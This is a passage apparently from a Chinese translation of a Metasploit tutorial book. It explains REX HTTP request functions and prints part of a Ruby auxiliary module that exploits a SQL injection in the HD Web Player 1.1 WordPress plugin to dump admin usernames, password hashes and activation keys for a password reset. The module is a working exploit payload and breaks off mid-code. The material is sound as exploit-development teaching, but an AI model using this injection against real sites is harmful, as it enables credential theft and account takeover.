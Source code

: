 为了理解需要传递给这些函数的值，我们需要研究 REX 库。REX 库显示与`send_request_raw`功能相关的以下输出：

![Grasping the important web functions](graphics/2223OS_04_12.jpg)

我们可以看到，通过使用前面的参数，我们可以传递与请求相关的各种参数。一个例子可以是设置我们自己指定的 cookie 和各种其他东西。让我们保持简单，重点关注可利用 web 文件的目标路径`uri`参数。`method`参数指定它是`GET`或`POST`类型的请求。我们将在从 SQL 注入的响应中获取值时使用这些函数。

回到`send_request_cgi`函数，让我们看看它通过`send_request_raw`方法提供了什么：

![Grasping the important web functions](graphics/2223OS_04_13.jpg)

我们可以清楚地看到许许多多的选择。它还提供了一种可扩展的方法`vars_post`，使得非常容易在`POST`类型的请求中传递值。我们很快就会看到这些参数在起作用。

## GET/POST 方法的要点

`GET`方法将从指定资源请求数据或网页，并用于浏览网页。另一方面，`POST`命令将从表单或特定值获取的数据发布到资源以进行进一步处理。现在，在编写基于 web 的漏洞时，这很方便。使用`POST`类型的请求，将特定查询或数据发布到指定页面变得很容易。

现在，让我们看看我们需要在这个漏洞中执行什么：

1.  触发 SQL 注入
2.  获取用户名和密码
3.  发送激活密钥生成请求
4.  获取激活密钥
5.  提供用于绕过密码破解的激活密钥
6.  提供新密码

现在，我们很清楚需要执行的任务，让我们再做一步，生成一个兼容的匹配漏洞并理解它的工作。

## 制作一个基于辅助的漏洞

在使用`mona.py`脚本生成框架并进行必要的修改后，让我们看看漏洞的源代码，该漏洞将触发 HD Web Player 1.1 插件中的 SQL 注入，并通过绕过破解散列密码的需要来重置管理员用户的密码：

```
require 'rex/proto/http'
require 'msf/core'
class Metasploit3 < Msf::Auxiliary
  include Msf::Exploit::Remote::HttpClient
  include Msf::Auxiliary::Scanner
  def initialize
    super(
      'Name'        => 'HD Web Player 1.1 SQL Injection',
      'Description' => 'SQL Injects and Bypasses Password Cracking',
      'Author'      => 'Nipun_Jaswal',
      'License'     => MSF_LICENSE
    )
  end
  def run_host(ip)
    begin
      connect
      req1="/wordpress/wordpress/wp-content/plugins/webplayer/config.php?id=-1213%20UNION%20ALL%20SELECT%20NULL%2C%28SELECT%20CONCAT%280x3a7a74783a%2CIFNULL%28CAST%28user_activation_key%20AS%20CHAR%29%2C0x20%29%2C0x656e63726e6c%2CIFNULL%28CAST%28user_login%20AS%20CHAR%29%2C0x20%29%2C0x656e63726e6c%2CIFNULL%28CAST%28user_pass%20AS%20CHAR%29%2C0x20%29%2C0x3a77786e3a%29%20FROM%20wordpress.wp_users%20LIMIT%200%2C1%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%23"
      res = send_request_raw({'uri' => req1, 'method' => 'GET' })
      userfind= (res.body =~ /admin/)
      username= res.body[userfind,5]
      passfind=(res.body =~ /[$]P/)
      pass=res.body[passfind,34]
      sleep(1)
      print_line("[+]Wordpress Username: #{ver}") 
      print_line("[+]Wordpress Password: #{pass}")
      sleep(1)
```